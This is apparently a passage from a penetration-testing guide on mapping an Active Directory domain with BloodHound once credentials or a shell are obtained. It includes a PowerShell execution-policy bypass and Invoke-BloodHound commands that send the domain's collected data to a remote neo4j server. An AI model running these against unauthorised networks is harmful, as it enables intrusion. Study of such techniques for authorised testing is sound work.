 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone in the domain needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain without breaking any rules. Any user can query Active Directory for computers, domain controllers, groups and sessions.

Now we can use this brilliant feature to collect a ton of information and create a cool GUI map of the entire AD which can be queried using BloodHound. Do the following:

* [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/) manually, not through apt
* Run neo4j from `/opt/neo4j-community-3.1.1/bin/neo4j start`
* Navigate to localhost:7474 in your browser.
* Set a new password for the neo4j account.
* Edit neo4j.conf and set the following parameters to make any host be able to access the database.
  ```
  dbms.connector.http.enabled=true
  dbms.connector.http.listen_address=0.0.0.0:7474
  ```
* Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
* Access neo4j in the browser at `http://0.0.0.0:7474/browser/`
* Launch BloodHound and log in to the neo4j database

The old method:

```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:

```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.


